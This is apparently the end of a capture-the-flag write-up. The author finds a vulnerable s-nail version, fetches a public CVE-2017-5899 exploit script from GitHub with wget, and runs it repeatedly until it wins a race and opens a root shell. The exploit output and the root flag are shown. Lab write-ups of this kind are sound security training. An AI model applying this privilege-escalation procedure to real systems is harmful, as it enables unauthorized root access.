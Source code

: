 I checked the version of `s-nail` - it was version `v14.8.6`. In this case, I looked to see if there were any exploits available on the Internet for this service. I found a vulnerability marked as `CVE-2017-5899` and its exploit: https://www.exploit-db.com/exploits/47172

Following this lead, I searched GitHub for code that I could execute on the machine. I found the file [`exploit.sh`](https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh)

In the absence of `curl` I downloaded it using `wget` and checked is permissions.

```
-rw-r--r-- 1 chad chad 8.4K May  7 06:17 exploit.sh 
```

To be able to execute it I elevated it using `chmod 777 exploit.sh`. After these steps I ran the script - `./exploit.sh`.

The first time the operation failed and I did not get root. The same for the second and the third. Before giving up on the idea, I decided to run the script a few more times and finally obtained root!

### Root access

```
(...)
[.] Race #517 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 May  7 06:37 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh

# whoami
root
# pwd
/home/chad
```

#### Root flag

I moved to the `/root` directory where the flag was waiting for me:

```
# cd /root
# ls
chad_real_identity.png	root.txt
# cat root.txt	
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█
```